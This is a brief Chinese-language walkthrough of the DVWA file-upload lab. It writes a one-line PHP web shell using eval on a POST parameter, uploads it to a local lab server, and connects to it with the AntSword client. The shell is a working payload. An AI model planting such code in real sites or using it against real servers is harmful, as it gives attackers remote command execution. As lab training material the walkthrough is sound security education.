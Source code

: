 写一个一句话木马

```php
<?php   @eval($_POST['hello']);  ?>
```

![image-20230730123251585](./DVWA.assets/image-20230730153720919.png)





上传成功，给出了上传文件路径，

![image-20230730153720919](./DVWA.assets/image-20230730153819897.png)



使用蚁剑连接一句话木马

```
http://192.168.80.145/dvwa/hackable/uploads/1.php
```

<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230730154342119.png" alt="image-20230730154342119" style="zoom:33%;" />

蚁剑连接成功

